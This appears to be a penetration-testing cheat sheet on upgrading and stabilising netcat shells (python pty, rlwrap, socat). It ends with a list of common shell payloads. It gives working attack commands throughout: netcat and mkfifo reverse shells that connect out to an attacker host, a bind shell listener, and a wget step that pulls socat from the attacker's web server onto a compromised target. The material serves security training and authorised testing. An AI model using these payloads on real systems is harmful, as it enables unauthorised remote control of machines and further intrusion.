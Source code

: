 # Shells

## Netcat Shell Stabilization

### Technique 1: Python

Step 1:

```bash
python -c 'import pty;pty.spawn("/bin/bash")'
```

```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

Step 2:

```bash
export TERM=xterm
```

&#x20;(Gives access to term commands such as clear)

Step 3:

Ctrl + Z and then:

```bash
stty raw -echo; fg
```

This does two things:&#x20;

first, it turns off our own terminal echo (which gives us access to tab autocompletes, the arrow keys, and Ctrl + C to kill processes).&#x20;

It then foregrounds the shell, thus completing the process.

**Note that** if the shell dies, any input in your own terminal will not be visible (as a result of having disabled terminal echo). To fix this, type `reset` and press enter.

### Technique 2: rlwrap

Set up a listener:

```bash
rlwrap nc -lvnp <port>
```

Background the shell using Ctrl + Z

Then use:

```bash
stty raw -echo; fg
```

### Technique 3: Socat

The third easy way to stabilize a shell is quite simply to use an initial netcat shell as a stepping stone into a more fully-featured socat shell.&#x20;

To accomplish this method of stabilization we would first transfer a [socat static compiled binary](https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86\_64/socat?raw=true) (a version of the program compiled to have no dependencies) up to the target machine.&#x20;

A typical way to achieve this would be using a webserver on the attacking machine inside the directory containing your socat binary (`sudo python3 -m http.server 80`), then, on the target machine, using the netcat shell to download the file.&#x20;

On Linux this would be accomplished with curl or wget (`wget <LOCAL-IP>/socat -O /tmp/socat`).



First, open another terminal and run `stty -a`. This will give you a large stream of output. Note down the values for "rows" and columns:

<figure><img src="../../.gitbook/assets/image (61).png" alt=""><figcaption></figcaption></figure>

Next, in your reverse/bind shell, type in:

`stty rows <number>`

and

`stty cols <number>`

## Common Shell Payloads

`nc -lvnp -e /bin/bash`&#x20;

`nc <LOCAL-IP> <PORT> -e /bin/bash` = this would result in reverse shell on the target

Create a listener for a bind shell (using named pipe (mkfifo)):

```bash
mkfifo /tmp/f; nc -lvnp <PORT> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f
```

Send netcat reverse shell:

```bash
mkfifo /tmp/f; nc <LOCAL-IP> <PORT> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f
```
